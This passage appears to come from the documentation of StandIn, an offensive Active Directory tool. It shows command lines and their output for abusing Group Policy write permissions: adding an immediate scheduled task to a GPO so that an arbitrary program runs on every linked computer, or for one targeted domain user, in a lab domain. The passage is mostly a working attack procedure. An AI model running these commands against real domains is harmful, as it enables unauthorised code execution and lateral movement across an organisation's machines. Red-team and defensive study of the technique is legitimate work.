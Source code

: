 ### GPO add immediate task

> *With the appropriate permissions it is possible to add an immediate task to either the `User` or `Computer` component of the GPO. Optionally, these tasks can be narrowed to apply to a single user or single computer.*

#### Syntax

Add a generic `Computer` task which will execute for all linked computer objects tied to the `Shards` GPO. Also add a targeted `User` task that will only execute for a specific domain user. This function can both create the required files and also update existing files. **Use with caution.**

```
C:\Users\user001\Desktop>StandIn.exe --gpo --filter Shards --tasktype computer --taskname Liber --author "REDHOOK\Administrator" --command "C:\I\do\the\thing.exe" --args "with args"

[?] Using DC : m-w16-dc01.main.redhook.local

[+] GPO Object Found
    Object   : CN={58890948-8DE3-4A39-8C40-F68004186693}
    Path     : LDAP://CN={58890948-8DE3-4A39-8C40-F68004186693},CN=Policies,CN=System,DC=redhook,DC=local
    GP Path  : \\redhook.local\SysVol\redhook.local\Policies\{58890948-8DE3-4A39-8C40-F68004186693}

[?] GPO Version
    User     : 0
    Computer : 2

[+] Writing GPO changes
    |_ Creating ScheduledTasks.xml
    |_ Updating gpt.inf
    |_ Updating AD object
       |_ Incrementing version number
       |_ Updating gPCMachineExtensionNames

C:\> StandIn.exe --gpo --filter Shards --tasktype user --taskname Ivonis --author "REDHOOK\Administrator" --command "C:\I\do\the\thing.exe" --args "with args" --target "REDHOOK\user001" --targetsid S-1-5-21-315358687-3711474269-2098994107-1105

[?] Using DC : m-w16-dc01.main.redhook.local

[+] GPO Object Found
    Object   : CN={58890948-8DE3-4A39-8C40-F68004186693}
    Path     : LDAP://CN={58890948-8DE3-4A39-8C40-F68004186693},CN=Policies,CN=System,DC=redhook,DC=local
    GP Path  : \\redhook.local\SysVol\redhook.local\Policies\{58890948-8DE3-4A39-8C40-F68004186693}

[?] GPO Version
    User     : 0
    Computer : 3

[+] Writing GPO changes
    |_ Creating ScheduledTasks.xml
    |_ Updating gpt.inf
    |_ Updating AD object
       |_ Incrementing version number
       |_ Creating gPCUserExtensionNames
```
